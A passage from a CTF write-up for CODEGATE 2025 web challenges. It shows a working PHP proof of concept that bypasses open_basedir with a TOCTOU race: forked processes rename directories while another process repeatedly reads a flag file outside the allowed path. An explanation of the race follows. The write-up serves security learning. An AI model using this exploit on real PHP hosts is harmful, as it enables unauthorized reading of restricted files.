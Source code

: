 ```php
<?php
@rmdir("/tmp/adir/bdir");
@rmdir("/tmp/adir");
@rmdir("/tmp/bdir");

mkdir("/tmp/adir");
mkdir("/tmp/adir/bdir");
chdir("/tmp/adir/bdir");

$count = 100000000;

$pid = pcntl_fork();
if ($pid == -1) {
    die('could not fork');
} else if ($pid) {
    for ($i = 0; $i < $count; $i++) {
        $r = @file_get_contents("../../flag.txt");
        if ($r !== false) {
            var_dump($r);
        }
    }
} else {
    // we are the child
    for ($i = 0; $i < $count; $i++) {
        rename("/tmp/adir/bdir", "/tmp/bdir");
        rename("/tmp/bdir", "/tmp/adir/bdir");
    }
}
?>

```

To supplement the explanation of the above PoC: PHP's file-related functions (`file_get_contents`, `fopen`, etc.) internally call the `php_check_open_basedir` function when invoked. This function then calls `expand_filepath` and performs verification logic similar to `OnUpdateBaseDir()`.

The core of the attack is a race condition that occurs when two processes run simultaneously.

1. **Parent process**: Repeatedly executes `file_get_contents("../../flag.txt")`
2. **Child process**: Repeatedly performs `rename` between `/tmp/A/B` and `/tmp/B` directories

This process exploits the time gap (TOCTOU - Time-of-Check-Time-of-Use) between path resolution and `open_basedir` verification to bypass the restriction.

Therefore, as mentioned above, when the working directory is changed between path resolution time and verification time due to directory manipulation, a "The current working directory has been unlinked." error occurs, but file access remains possible with the already resolved path.

![flag](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2037.png)

flag

# Conclusion
